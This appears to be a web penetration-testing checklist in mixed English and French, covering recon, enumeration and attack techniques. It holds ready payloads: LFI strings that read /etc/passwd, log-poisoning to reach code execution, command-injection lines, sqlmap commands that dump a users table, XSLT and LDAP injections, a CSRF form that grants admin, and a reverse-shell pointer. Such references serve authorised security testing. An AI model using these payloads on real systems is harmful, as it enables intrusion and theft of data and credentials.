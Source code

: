 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- **ping**
	`$ ping www.site.com`  
- **whois**
	`$ whois 'www.site.com'`
	`$ whois <ip>`  
- **google dorks**
	search for credentials : `"intext:<thetarget> AND intext:@gmail.com AND intext:password"`  
	Tools : FastGoogleDorks, theharvester    
- **DNS**
	DNS records 
	`$ dig domain.com ANY`
	`PS> nslookup -q=TXT domain.com` 
AXFR transfert zone
- **VHOSTS** : HTTP "Host" header modification or "/etc/hosts" file modification to access potential VHOST 
- **Subdomains enumeration** : $ amass enum -passive -d domain.com -src 
- **Network scan** : $ nmap -p- sV site.com // -A version detection -oA fichier_out  

## Client source code
- **Information** : CMS version ; file disclosure(.js files) ; unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

### URL: 
- **Unprotected references/directory listing** : dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) (unprotected refs such as /admin/, robots.txt, sitemap.xml, etc.)  
- **Backup files** : /dev/, index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp, etc.
- **Full Path Disclosure** [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- **Redirections** : $ curl -v 

### REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
